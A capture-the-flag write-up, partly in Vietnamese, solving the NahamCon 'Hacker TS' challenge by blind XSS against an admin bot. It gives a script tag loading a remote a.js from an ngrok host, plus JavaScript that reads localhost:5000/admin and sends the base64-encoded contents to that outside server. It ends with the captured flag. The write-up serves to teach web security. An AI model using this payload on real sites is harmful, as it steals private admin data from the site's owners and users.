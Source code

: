 # nahamcon CTF - Hacker TS

Blind XSS make cross-site request forgery to localhost trộm sensitive information(flag)

## Description
We all love our hacker t-shirts. Make your own custom ones.

## Solution

### Review

![7](https://user-images.githubusercontent.com/71699412/167263496-45a82ac5-4f98-4163-84f3-c743c93d5907.jpg)


- Chall cho nhập 1 đoạn text, gửi thì redirect đến page chứa ảnh áo kèm text vừa gửi.

- Truy cập đường dẫn admin thì nó chỉ cho localhost truy cập

### Exploit

Ngồi test cả buổi cứ tưởng SSRF, Command Injection, RCE nhưng chẳng thèm thử XSS, và đúng thế, website dính lỗi XSS ở phía admin khi text ta gửi sẽ được 1 con bot go to để xem, đây là XSS blind, chơi CTF lần sau hãy chú ý nhiều hơn.

Ta gửi đoạn script sau, việc trỏ đến `a.js` giúp ta edit payload dễ hơn:
```html
<script src="http://a047-42-112-56-248.ngrok.io/a.js"></script>
```
file `a.js`:
```js
var xhr = new XMLHttpRequest;
xhr.open("GET", "http://localhost:5000/admin");
xhr.onload = function() {
	var flag = btoa(xhr.responseText);
	var exit = new XMLHttpRequest;
	exit.open("GET", "http://a047-42-112-56-248.ngrok.io?flag=" + flag);
	exit.send();
};

xhr.send();
```
Đơn giản là request `localhost/admin` rồi send responseText đến server mình host thôi, nhận được response: 

![Screenshot 2022-05-07 233532](https://user-images.githubusercontent.com/71699412/167263527-e2b079d7-7f05-46e5-9f10-54ece4583072.jpg)

Decode base64 ta được flag.

Hi admin! here is your flag: <strong>flag{461e2452088eb397b6138a5934af6231}</strong>
